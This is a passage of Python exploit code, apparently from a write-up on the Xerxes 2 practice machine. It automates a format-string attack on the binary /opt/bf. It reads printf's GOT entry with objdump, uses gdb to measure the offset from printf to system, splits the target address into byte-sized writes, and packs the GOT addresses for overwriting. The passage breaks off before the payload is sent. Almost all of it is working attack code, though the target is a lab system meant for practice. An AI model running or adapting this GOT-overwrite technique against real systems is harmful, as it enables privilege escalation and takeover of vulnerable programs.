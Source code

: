 ```python
        return bf_print(string) + "<" * (len(string)-1)

def split_addr(n):
    result = []
    n1 = n & 0xFF
    n2 = (n >> 8) & 0xFF
    n3 = (n >> 16) & 0xFF
    n4 = (n >> 24) & 0xFF
    while n1 <= 16:
        n1 += 0x100
    result.append(n1 - 16)
    while n2 <= n1:
        n2 += 0x100
    result.append(n2 - n1)
    while n3 <= n2:
        n3 += 0x100
    result.append(n3 - n2)
    while n4 <= n3:
        n4 += 0x100
    result.append(n4 - n3)
    return result

print "[i] devloop exploit for Xerxes 2 /opt/bf - fully automated"
printf_got = 0
print "[*] Getting printf address in GOT with objdump"
output = subprocess.check_output(["objdump", "-R", "/opt/bf"])
for line in output.split("\n"):
    if line.endswith("printf"):
        printf_got = int(line.split()[0], 16)
        print "[*] GOT address for printf is", hex(printf_got)
if not printf_got:
    print "[!] Can't get printf GOT address"
    sys.exit()

print "[*] Launching test process to get distance between printf and system..."
args = ["gdb", "-q", "/opt/bf"]
p = subprocess.Popen(args, stdin=subprocess.PIPE, stdout=subprocess.PIPE)
output = p.communicate("set disable-randomization off\nb main\nr\np printf\np system\nkill\nquit")[0]

printf_addr = 0
system_addr = 0

for line in output.split("\n"):
    if "printf" in line:
        printf_addr = int(line.split("0x")[1].split()[0], 16)
        print "[*] printf is at", hex(printf_addr)
    elif "system" in line:
        system_addr = int(line.split("0x")[1].split()[0], 16)
        print "[*] system is at", hex(system_addr)

if not (printf_addr or system_addr):
    print "[!] Can't resolve functions addresses :("
    sys.exit()

offset = int(system_addr - printf_addr)
print "[*] Offset to system is", offset

addresses = struct.pack("I", printf_got)
addresses += struct.pack("I", printf_got + 1)
addresses += struct.pack("I", printf_got + 2)
addresses += struct.pack("I", printf_got + 3)

```